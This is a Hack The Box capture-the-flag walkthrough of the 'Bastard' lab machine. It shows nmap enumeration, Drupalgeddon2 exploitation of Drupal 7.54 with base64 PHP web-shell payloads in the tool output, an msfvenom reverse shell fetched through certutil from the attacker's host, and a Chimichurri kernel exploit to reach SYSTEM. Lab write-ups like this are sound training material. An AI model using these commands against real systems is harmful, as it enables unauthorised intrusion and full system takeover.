 # HTB - Bastard

#### Ip: 10.10.10.9
#### Name: Bastard
#### Difficulty: Medium

----------------------------------------------------------------------

Bastard.png

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/HTB/Bastard]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.9 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-01 09:04 CDT
Nmap scan report for 10.10.10.9
Host is up (0.067s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-title: Welcome to Bastard | Bastard
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.86 seconds

```

Navigating to the webpage we can see the site is running Drupal.

site.png

And if we take a look at the page source we can see it is running Drupal 7 specifically (Note: Nmap picked this up for us as well):

7.png

Based on prior experience, I know that Drupal 7 is has several vulnerabilites. Lets try using drupalgeddon2 to exploit this. The exploit can be found at: https://github.com/dreadlocked/Drupalgeddon2

### Exploitation:

```text
┌──(ryan㉿kali)-[~/HTB/Bastard]
└─$ ruby drupalgeddon2.rb http://10.10.10.9     
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo VFEMFJVK
[+] Result : VFEMFJVK
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.9/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>> hostname
Bastard
```

Nice! The exploit worked after trying out a few different payloads. 

Lets use msfvenom to create a reverse shell executable so we can spawn a proper reverse shell:

```text
┌──(ryan㉿kali)-[~/HTB/Bastard]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.26 LPORT=443 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Then with both a python HTTP server and a netcat listener going we can fetch and execute the shell:

```text
drupalgeddon2>> certutil -urlcache -split -f "http://10.10.14.26/shell.exe"
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
drupalgeddon2>> .\shell.exe
```

And we catch a shell back:

shell.png

We can now grab the user.txt flag:

user_flag.png

### Privilege Escalation

Because this is such an old machine I'm curious about the kernel version:

```text
C:\inetpub\drupal-7.54>systeminfo
systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          1/9/2023, 5:03:02 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
                           [02]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.514 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.514 MB
Virtual Memory: In Use:    581 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```

Nice, doesn't look like tthere's been any patching. Lets try using Chimichurri.exe https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri

We can download it from our attacking machine and execute it using:

```text
C:\Temp>certutil -urlcache -split -f "http://10.10.14.26/Chimichurri.exe"
certutil -urlcache -split -f "http://10.10.14.26/Chimichurri.exe"
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.

C:\Temp>.\Chimichurri.exe 10.10.14.26 444
```

And with a listener going on port 444 we catch a shell back as nt authority\system and grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

------------------------------------------------